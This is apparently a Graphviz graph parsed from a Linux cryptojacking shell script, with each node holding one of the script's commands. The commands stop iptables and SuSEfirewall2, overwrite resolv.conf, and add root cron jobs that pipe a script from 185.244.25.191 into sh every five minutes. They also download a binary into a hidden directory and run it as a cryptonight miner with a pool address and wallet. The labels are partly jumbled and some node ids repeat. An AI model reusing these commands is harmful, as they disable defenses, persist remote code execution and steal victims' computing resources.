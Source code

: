 digraph {
0 [label="/etc/init.d/iptables stop "];
0 -> 0
2 [label="service iptables stop "];
2 -> 4 [label=";,"];
4 [label="SuSEfirewall2 stop "];
4 -> 6 [label=";,"];
6 [label="reSuSEfirewall2 stop "];
6 -> 8 [label=";,"];
8 [label="echo nameserver 8.8.8.8 /etc/resolv.conf "];
8 -> 8
14 [label="/etc/resolv.conf "];
14 -> 14
12 [label="echo /etc/resolv.conf nameserver 8.8.4.4 "];
12 -> 12
14 [label="/etc/resolv.conf "];
14 -> 14
16 [label="echo */5 * * * * curl -fsSL http://185.244.25.191/i.sh | sh /var/spool/cron/root "];
16 -> 16
22 [label="/var/spool/cron/root "];
22 -> 22
20 [label="echo */5 * * * * wget -q -O- http://185.244.25.191/i.sh | sh /var/spool/cron/root "];
20 -> 20
22 [label="/var/spool/cron/root "];
22 -> 22
24 [label="mkdir -p /var/spool/cron/crontabs "];
24 -> 24
26 [label="echo */5 * * * * curl -fsSL http://185.244.25.191/i.sh | sh /var/spool/cron/crontabs/root "];
26 -> 26
32 [label="/var/spool/cron/crontabs/root "];
32 -> 32
30 [label="echo */5 * * * * wget -q -O- http://185.244.25.191/i.sh | sh /var/spool/cron/crontabs/root "];
30 -> 30
32 [label="/var/spool/cron/crontabs/root "];
32 -> 32
34 [label="[ ! -f /usr/lib/local/.zh ] "];
34 -> 36 [label="SC,N,if,"];
36 [label="mkdir -p /usr/local/lib/.zh "];
36 -> 38 [label=";,then,"];
38 [label="wget http://185.244.25.191/x -O /usr/local/lib/.zh/   "];
38 -> 40 [label="\n,"];
40 [label="cd /usr/local/lib/.zh/ "];
40 -> 42 [label=";,"];
42 [label="chmod 777    "];
42 -> 52 [label=";,"];
52 [label="./   -a cryptonight -o stratum+tcp://176.9.53.68:5555 -u 47rT5wSPhzE5HmgYieKEn8ac8S4Qne7JmZT4D2u3mFKPBmKBXF7frEsSmMd41MNuFNMTbc3xTdUzhJ51qi9XWDs1GnwUhKU -p x -k -B /dev/null "];
52 -> 53 [label=";,"];
53 [label="/dev/null "];
53 -> 53
48 [label="curl -O- http://185.244.25.191/x -O /usr/lib/.zh/   "];
48 -> 50 [label="&,else,"];
50 [label="chmod 777 "];
50 -> 52 [label=";,"];
52 [label="./   -a cryptonight -o stratum+tcp://176.9.53.68:5555 -u 47rT5wSPhzE5HmgYieKEn8ac8S4Qne7JmZT4D2u3mFKPBmKBXF7frEsSmMd41MNuFNMTbc3xTdUzhJ51qi9XWDs1GnwUhKU -p x -k -B /dev/null "];
52 -> 53 [label=";,"];
}
